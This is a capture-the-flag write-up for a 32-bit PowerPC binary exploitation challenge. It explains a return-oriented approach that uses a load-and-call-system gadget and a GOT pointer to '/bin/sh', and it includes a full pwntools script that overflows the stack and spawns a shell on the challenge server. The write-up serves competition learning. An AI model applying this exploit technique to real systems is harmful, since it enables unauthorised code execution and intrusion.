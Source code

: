 ### exp

We need to control the r3 register to point to "/bin/sh" when calling "system", luckily, we have this gadget:
```asm
lwz       r3, 8(r31)
bl        system
```

Also, when returning from the `main` function, r31 is loaded from `-4(r11)` so that we can control the value of r31     
At first, I plan to put "/bin/sh" addr on stack and point r31 to it, but it will require an additional stack leak, which is quite nasty.  
Then I rubber-duck-debugged the problem with my awesome boyfriend jiegec. I checked the cross reference to the address of "/bin/sh" and found a pointer in got segment that points to it.    


![alt_text](/assets/img/uploads/binshell.png)


We control the r31 reg to the got pointer minus 8, and the problem is solved    

```py
from pwn import*
context(log_level = "debug", os = "linux")

context.arch = 'powerpc'
context.bits = 32
context.endian = 'big'
system_addr = 0x10000610
binshell = 0x10077A8C
one_gadget = 0x10007CE4
binary_path = "./sp33d1"
# p = process(["qemu-ppc","-g","1234", binary_path])  
p = remote("sp33d.play.hfsc.tf", 20020)  
elf = ELF("./sp33d1")

# why we have to send p32(system_addr)*2 is that the p32(0x100BEF20) is at r11 - 4 and the return address is at r11 + 4
# just like how it works in x86_64
payload = b"a"*0x14 + p32(0x100BEF20) + p32(system_addr)*2

p.recvuntil("pwn: ")
p.sendline(payload)
p.interactive()
```
